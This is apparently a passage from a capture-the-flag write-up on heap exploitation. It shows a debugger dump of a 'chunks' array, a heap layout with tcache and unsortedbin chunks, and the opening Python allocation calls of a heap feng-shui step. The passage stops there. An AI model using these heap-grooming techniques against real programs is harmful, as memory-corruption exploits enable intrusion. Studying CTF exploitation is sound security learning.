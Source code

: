 Here is the `chunks` array:

```
0x55d45f1ea060 <chunks>:        0x0000000000000000      0x0054696d616f6877
0x55d45f1ea070 <chunks+16>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea080 <chunks+32>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea090 <chunks+48>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea0a0 <chunks+64>:     0x0000000000000000      0x0054696d616f6877
0x55d45f1ea0b0 <chunks+80>:     0x0000000000000000      0x0054696d616f6877
```

As you can see, where our allocations used to be is the string "whoamIT".

## Feng-Shui

At this point in the program, our heap looks like this:

```
Allocated chunk | PREV_INUSE
Addr: 0x55d46019a000
Size: 0x291

Allocated chunk | PREV_INUSE <-------- chunk 1
Addr: 0x55d46019a290
Size: 0x221

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x55d46019a4b0 <--------- chunk 7
Size: 0x2011
fd: 0x7f6c44c75be0
bk: 0x7f6c44c75be0

Free chunk (tcache)    <------- chunk '9'
Addr: 0x55d46019c4c0
Size: 0x110
fd: 0x00

Allocated chunk | PREV_INUSE
Addr: 0x55d46019c5d0
Size: 0x111       <------- chunk 11

Top chunk | PREV_INUSE
Addr: 0x55d46019c6e0
Size: 0x1e921

```

Here's where hk pulls out the heap ninja skills.

```py
alloc(0, 0x500, 'hk')
alloc(2, 0x500, 'hk')

sice(0)
sice(2)
```

